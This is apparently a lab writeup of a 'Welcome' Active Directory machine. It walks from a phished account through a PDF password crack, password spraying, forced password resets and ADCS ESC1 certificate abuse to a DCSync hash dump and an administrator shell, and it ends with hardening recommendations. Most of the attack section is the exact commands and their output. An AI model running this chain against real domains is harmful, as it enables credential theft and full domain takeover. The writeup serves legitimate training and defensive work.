# 🏴 HackSmarter — Welcome Machine Writeup

> **Category:** Active Directory | **Difficulty:** Medium | **Date:** December 2025

---

## 📋 Table of Contents

1. [Introduction & Scope](#introduction--scope)
2. [Reconnaissance](#reconnaissance)
   - [Nmap Scan](#nmap-scan)
   - [DNS Enumeration](#dns-enumeration)
3. [SMB Enumeration](#smb-enumeration)
   - [Share Discovery](#share-discovery)
   - [User Enumeration](#user-enumeration)
4. [HR Share — Cracking the PDF Password](#hr-share--cracking-the-pdf-password)
5. [Password Spraying](#password-spraying)
6. [BloodHound — AD Analysis](#bloodhound--ad-analysis)
7. [Privilege Escalation Chain](#privilege-escalation-chain)
   - [a.harris → i.park](#aharris--ipark)
   - [i.park → svc_ca](#ipark--svc_ca)
8. [ESC1 — ADCS Attack](#esc1--adcs-attack)
9. [Domain Admin & Impact Demonstration](#domain-admin--impact-demonstration)
10. [Summary & Recommendations](#summary--recommendations)

---

## Introduction & Scope

This writeup covers a full Active Directory attack simulation performed as part of a **Hack Smarter Red Team** engagement. The scenario begins with a phishing-obtained user account and ends with full Domain Admin access.

```
Target Domain      : WELCOME.local
Domain Controller  : DC01.WELCOME.local (10.1.253.28)
Starting Account   : e.hills
```

---

## Reconnaissance

### Nmap Scan

A full port scan was conducted against the target. The results immediately confirmed we were dealing with a **Windows Server 2022 Domain Controller**.

```
Key Open Ports:
53/tcp   → DNS (Simple DNS Plus)
88/tcp   → Kerberos
389/tcp  → LDAP (WELCOME.local)
445/tcp  → SMB
3268/tcp → Global Catalog LDAP
3389/tcp → RDP
5985/tcp → WinRM
9389/tcp → AD Web Services
```

Notable findings from the scan:
- **Domain:** `WELCOME.local`
- **DC Hostname:** `DC01.WELCOME.local`
- **OS:** Windows Server 2022 Build 20348
- **SMB Signing:** Enabled and Required (relay attacks blocked)

### DNS Enumeration

```bash
dig any WELCOME.local @10.1.253.28
```

The DNS query confirmed the domain structure:

```
WELCOME.local       →  10.0.2.25
dc01.WELCOME.local  →  10.1.253.28  (NS / SOA)
```

---

## SMB Enumeration

Using the compromised `e.hills` credentials, we performed thorough enumeration over SMB.

### Share Discovery

```bash
nxc smb WELCOME.local -u e.hills -p '[REDACTED]' --shares
```

| Share | Permission | Note |
|-------|------------|------|
| ADMIN$ | — | Remote Admin |
| C$ | — | Default Share |
| **Human Resources** | **READ** | Interesting! |
| IPC$ | READ | Remote IPC |
| NETLOGON | READ | Logon Server Share |
| SYSVOL | READ | Logon Server Share |

The `Human Resources` share stood out — a standard domain user shouldn't typically have read access to an HR share.




### User Enumeration

```bash
nxc smb WELCOME.local -u e.hills -p '[REDACTED]' --users
nxc smb WELCOME.local -u e.hills -p '[REDACTED]' --rid-brute
```

**Discovered users:**

```
Administrator, Guest, krbtgt
e.hills, j.crickets, e.blanch
i.park  (Description: IT Intern)
j.johnson, a.harris
svc_ca, svc_web  (Description: Web Server in Progress)
```



**Discovered groups:**

```
HR          (SID: 1103)
HelpDesk    (SID: 1104)
IT          (SID: 1111)
```

All usernames were saved to `users.txt` for later use.

---

## HR Share — Cracking the PDF Password

Connecting to the `Human Resources` share revealed several PDF documents:

```
smb: \> ls
  Welcome 2025 Holiday Schedule.pdf
  Welcome Benefits.pdf
  Welcome Handbook Excerpts.pdf
  Welcome Performance Review Guide.pdf
  Welcome Start Guide.pdf     ← Password Protected!
```


`Welcome Start Guide.pdf` prompted for a password when opened. We extracted its hash and cracked it offline:



```bash
# Extract hash
pdf2john "Welcome Start Guide.pdf" > hash

# Crack with rockyou
john hash --wordlist=/usr/share/wordlists/rockyou.txt

```



```
Result  : [REDACTED]  (Welcome Start Guide.pdf)
Time    : ~3 seconds
```

Inside the document, buried in the onboarding instructions, was a critical piece of information — the **default password issued to all new employees**.

```
DEFAULT PASSWORD: [REDACTED]
```


---

## Password Spraying

With the default password in hand, we sprayed it across all discovered users. To avoid account lockouts, we used `--continue-on-success` and sprayed only once per account.

```bash
nxc smb WELCOME.local -u users.txt -p '[REDACTED]' --continue-on-success
```

**Results:**

```
[-] Administrator  → STATUS_LOGON_FAILURE
[-] e.hills        → STATUS_LOGON_FAILURE
[-] j.crickets     → STATUS_LOGON_FAILURE
[-] e.blanch       → STATUS_LOGON_FAILURE
[-] i.park         → STATUS_LOGON_FAILURE
[-] j.johnson      → STATUS_LOGON_FAILURE
[+] a.harris       → SUCCESS
[-] svc_ca         → STATUS_LOGON_FAILURE
[-] svc_web        → STATUS_LOGON_FAILURE
```



`a.harris` had never changed their default password. We now had a second foothold.

```
New Account : a.harris
Password    : [REDACTED]
```
---

## BloodHound — AD Analysis

With `a.harris` credentials, we collected BloodHound data to map attack paths through the domain. The graph analysis revealed a clear and exploitable chain all the way to Domain Admin:

```
a.harris
  └─[Member of: HR Group]
       └─[GenericAll on]
            └─► i.park
                  └─[Member of: HelpDesk Group]
                       └─[ForceChangePassword on]
                            └─► svc_ca
                                  └─[ESC1 Vulnerable Template]
                                       └─► Domain Admin
```

Three hops from `a.harris` to full domain compromise.




---

## Privilege Escalation Chain

### a.harris → i.park

BloodHound showed that `a.harris` is a member of the **HR group**, which holds `GenericAll` over `i.park`. This permission allows us to forcibly reset the account password.

```bash
net rpc password "I.PARK" "[REDACTED]" \
  -U "WELCOME.local"/'a.harris'%'[REDACTED]' \
  -S "WELCOME.local"
```

Verification:

```bash
nxc smb WELCOME.local -u I.PARK -p '[REDACTED]'
# [+] WELCOME.local\I.PARK
```


### i.park → svc_ca

`i.park` is a member of the **HelpDesk** group. BloodHound revealed this group has `ForceChangePassword` rights over `svc_ca`.

```bash
net rpc password "SVC_CA" "[REDACTED]" \
  -U "WELCOME.local"/'I.PARK'%'[REDACTED]' \
  -S "WELCOME.local"
```

Verification:

```bash
nxc smb WELCOME.local -u SVC_CA -p '[REDACTED]'
# [+] WELCOME.local\SVC_CA
```

We now controlled `svc_ca` — a service account whose name hinted at Certificate Authority access.

---

## ESC1 — ADCS Attack

The `svc_ca` account name strongly suggested a relationship with **Active Directory Certificate Services (ADCS)**. We scanned for vulnerable certificate templates using Certipy:

```bash
certipy-ad find -u svc_ca@WELCOME.local -p '[REDACTED]' \
  -dc-ip 10.1.253.28 -vulnerable
```



**Findings:**

```
Certificate Authority : WELCOME-CA
Host                  : DC01.WELCOME.local

Certificate Template  : Welcome-Template
  Enabled                   : True
  Client Authentication     : True
  Enrollee Supplies Subject : True   <- dangerous
  Enrollment Rights         : WELCOME.LOCAL\svc_ca

[!] Vulnerabilities
  ESC1 : Enrollee supplies subject and template allows client authentication
```



### What is ESC1?

ESC1 is a misconfiguration in an ADCS certificate template where two dangerous properties are combined:

1. **Enrollee Supplies Subject (SAN):** The requester can specify any Subject Alternative Name they want in the certificate.
2. **Client Authentication EKU:** The certificate can be used for authentication against Active Directory.

When combined, any user with enrollment rights can request a certificate **impersonating any domain user** — including the Domain Administrator.

### Requesting the Certificate

```bash
certipy-ad req -u 'svc_ca' -p '[REDACTED]' \
  -ca 'WELCOME-CA' \
  -template 'Welcome-Template' \
  -upn 'administrator@WELCOME.local' \
  -dc-ip 10.1.253.28 \
  -target DC01.WELCOME.local
```

```
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@WELCOME.local'
[*] Saved to: administrator.pfx
```



### Authenticating & Retrieving the NT Hash

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.1.253.28
```

```
[*] SAN UPN : administrator@WELCOME.local
[*] Got TGT
[*] Got hash for 'administrator@welcome.local'

Administrator NT Hash : [REDACTED]
```
We now held the Administrator's NT hash without ever knowing the actual password.



---

## Domain Admin & Impact Demonstration

### Dumping All Domain Hashes

Using the Administrator NT hash, we performed a DCSync attack to dump every credential in the domain:

```bash
impacket-secretsdump WELCOME.local/'administrator'@10.1.252.55 \
  -hashes ':[REDACTED]' -just-dc
```

All NTLM hashes and Kerberos keys for every domain account were successfully extracted, demonstrating complete domain compromise.



### Shell on the Domain Controller

```bash
evil-winrm -i 10.1.252.55 -u administrator -H [REDACTED]
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
welcome\administrator
```



**Full domain compromise achieved.**

---

## Summary & Recommendations

### Attack Chain at a Glance

```
[Phishing]
  Obtained e.hills credentials
      ↓
[SMB Enumeration]
  Discovered Human Resources share
      ↓
[PDF Password Crack]
  Recovered default employee password
      ↓
[Password Spray]
  a.harris still using default password
      ↓
[BloodHound]
  Mapped full attack path
      ↓
[ForceChangePassword]
  a.harris → i.park → svc_ca
      ↓
[ADCS ESC1]
  Requested certificate as Administrator
      ↓
[Domain Admin]
  Full domain compromise
```

### Security Recommendations

| # | Finding | Recommendation |
|---|---------|----------------|
| 1 | Default passwords not rotated | Enforce mandatory password change on first login via GPO |
| 2 | Sensitive HR docs protected by a weak PDF password | Replace with proper ACL-based access controls or enterprise DRM |
| 3 | HR group holds GenericAll over user accounts | Remove excessive ACL permissions; apply least privilege principle |
| 4 | HelpDesk has ForceChangePassword on service accounts | Restrict scope; service accounts should not be manageable by helpdesk |
| 5 | ADCS ESC1 — Welcome-Template misconfiguration | Disable "Enrollee Supplies Subject" on all certificate templates |
| 6 | svc_ca can enroll in a privileged template | Audit and restrict certificate template enrollment rights domain-wide |

---

*This writeup was created for educational and awareness purposes only.*
